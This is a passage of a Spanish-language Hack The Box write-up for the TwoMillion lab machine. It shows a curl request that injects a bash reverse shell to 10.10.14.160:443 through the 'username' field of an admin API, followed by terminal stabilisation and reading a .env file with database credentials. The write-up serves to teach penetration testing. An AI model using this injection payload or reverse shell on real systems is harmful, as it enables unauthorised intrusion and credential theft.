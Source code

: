 <i> Con Curl sería así:</i>

```bash
❯ curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=5a2jtf8ii4cqbc8m7097kj74n0" -H "Content-Type: application/json" -d '{"username":"hi;bash -c \"bash -i >& /dev/tcp/10.10.14.160/443 0>&1\";"}'
```

Ahora hago el tratamiento de la tty como siempre.

![](/assets/images/htb-writeup-twomillion/18.png)

Esto reinicia la terminal actual y ahora puedes hacer cntrl + c sin que se vaya la máquina. Si queremos que vaya el control + l hacemos lo siguiente.

```bash
www-data@2million:~/html$ echo $TERM
dumb
www-data@2million:~/html$ export TERM=xterm  
www-data@2million:~/html$ echo $TERM
xterm
```

Por último para modificar el size del stty que es para que se vea bien el editor nano escribimos el siguiente comando
```bash
www-data@2million:~/html$ stty size
24 80
www-data@2million:~/html$ stty rows 44 columns 184
www-data@2million:~/html$ stty size
44 184
```
Vamos a buscar a ver que encontramos

```bash
www-data@2million:~/html$ ls -la
total 56
drwxr-xr-x 10 root root 4096 Jun 10 22:40 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Jun 10 22:40 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
www-data@2million:~/html$ 
```
